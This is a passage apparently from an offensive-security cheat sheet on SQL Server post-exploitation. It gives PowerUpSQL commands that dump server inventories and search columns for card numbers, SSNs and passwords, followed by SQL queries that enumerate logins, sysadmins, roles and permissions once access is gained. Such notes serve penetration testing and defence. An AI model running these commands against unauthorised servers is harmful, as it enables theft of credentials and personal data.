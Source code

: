 Get an inventory of common objects from the remote server including permissions, databases, tables, views etc, and dump them out into CSV files:

```powershell
# PowerUpSQL
Invoke-SQLDumpInfo -Verbose -Instance "SQLServer1\Instance1"
```

Find sensitive data based on column name:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "credit,ssn,password" -SampleSize 2 -ValidateCC -NoDefaults
```

Find sensitive data based on column name, but only target databases with transparent encryption:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq "TRUE"} | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "card, password" -SampleSize 2 -ValidateCC -NoDefaults
```

After getting access to a SQL Server, interesting information can be gathered. These queries can be executed with `HeidiSQL`:

```sql
-- Version
SELECT @@version

-- Current User
SELECT SUSER_SNAME()
SELECT SYSTEM_USER

-- Check sa privileges
SELECT IS_SRVROLEMEMBER('sysadmin')

-- Current Role
SELECT user

-- Current database
SELECT db_name()

-- All logins on server (gives more results if executed with sa privs)
SELECT * FROM sys.server_principals WHERE type_desc != 'SERVER_ROLE';

-- All database users for a database
USE <database>
SELECT * FROM sys.database_principals WHERE type_desc != 'DATABASE_ROLE';

-- List all sysadmin (gives more results if executed with sa privs)
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1;

-- List all database roles (gives more results if executed with sa privs)
USE <database>
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;

-- Effective Permissions for the server (more permissions if executed with sa privs)
SELECT * FROM fn_my_permissions(NULL, 'SERVER');

-- Effective Permissions for the database (more permissions if executed with sa privs)
USE <database>
```
